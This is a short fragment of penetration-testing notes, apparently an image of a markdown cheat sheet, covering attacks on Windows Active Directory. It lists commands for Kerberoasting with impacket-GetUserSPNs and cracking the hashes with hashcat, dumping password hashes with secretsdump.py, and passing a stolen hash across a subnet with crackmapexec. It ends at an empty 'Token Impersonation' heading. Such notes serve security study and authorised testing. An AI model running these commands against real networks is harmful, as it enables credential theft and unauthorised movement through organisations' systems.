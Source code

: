 ```
impacket-GetUserSPNs <IP or hostname>/<username>:<password> -request [add -request if SPN is found]
[save hash and crack with hashcat]
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

## Dump the hash 
1. We have a user account and pssexed into an account. We want to dump hashes.
2. `secretsdump.py Domain/USERNAME:SOMEPASSWORD@TargetIP`
3. `crackmapexec smb $IP.0/24 -u "UserNmae" -H <Hash> --local-auth
## Token Impersonation 
